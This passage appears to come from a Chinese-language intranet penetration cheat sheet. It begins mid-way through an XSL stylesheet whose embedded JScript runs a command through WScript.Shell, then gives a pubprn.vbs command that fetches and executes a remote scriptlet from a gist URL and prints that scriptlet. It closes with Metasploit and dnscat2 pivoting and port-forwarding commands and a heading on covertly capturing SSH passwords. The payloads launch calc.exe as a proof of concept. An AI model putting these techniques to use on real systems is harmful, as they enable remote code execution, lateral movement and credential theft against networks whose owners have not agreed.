 xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");
   return nodelist.nextNode().xml;

   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>

- pubprn.vbs

	- "C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct

		- test.sct
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
    >
</registration>
<script language="JScript">
<![CDATA[
        var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>   

**\#1). linux:**

**横向移动**

**转发:**

dnscat2: listen 127.0.0.1:9999 \<target_IP\>:22

Metasploit: post/windows/manage/autoroute

Metasploit Socks Proxy + Proxychains: use auxiliary/server/socks4a

Meterpreter: portfwd add –l 3389 –p 3389 –r \<target_IP\>

VPN over SSH

**通过普通用户权限隐形记录SSH登录密码:**

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/f60eca12f3aabb71e641d4c8a4010114.png)
